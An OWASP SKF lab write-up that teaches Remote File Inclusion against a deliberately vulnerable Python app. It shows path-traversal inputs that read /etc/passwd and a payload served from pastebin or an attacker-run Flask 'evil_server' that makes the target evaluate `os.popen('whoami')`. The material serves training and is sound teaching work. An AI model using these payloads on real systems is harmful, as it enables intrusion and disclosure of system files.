 # Python - Remote File Inclusion (RFI)

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ContraHack!](<../../.gitbook/assets/ing\_primary\_logo (2).png>)

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](../../.gitbook/assets/RFI1.png)

![](../../.gitbook/assets/RFI2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](../../.gitbook/assets/RFI3.png)

To exploit Remote File Inclusion vulnerability, we have two approaches documented in detail below:

1. Use pastebin.com to serve the file including system command and include the pastebin raw url:

For E.g.: You may copy the code below to pastebin.com ans save. Then include the raw URL which would look something like "[https://pastebin.com/raw/ZLeFHRNf](https://pastebin.com/raw/ZLeFHRNf)":

```
os.popen('whoami').read()
```

![](../../.gitbook/assets/RFI31.png)

1. Creating your own webserver: In this case you can use Python Flask to create a small webserver that serves your file. We name it evil\_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Then we create our folder template where we will put our evil.py file with the below content.

```python
5 + 5
```

Now we are ready to start our evil\_server.py and try to make the application load our evil python file and hopefully it will get executed.

![](../../.gitbook/assets/RFI4.png)

Our remote file inclusion worked and the application seems to load python files and eval() the content of them. This means we can also inject a system command in our evil.py file.

```python
os.popen('whoami').read()
```

![](../../.gitbook/assets/RFI5.png)

{% hint style="success" %}
Success! As we observed, we can include our own files through RFI.
{% endhint %}

## Additional sources

[https://www.owasp.org/index.php/Testing\_for\_Remote\_File\_Inclusion](https://www.owasp.org/index.php/Testing\_for\_Remote\_File\_Inclusion)
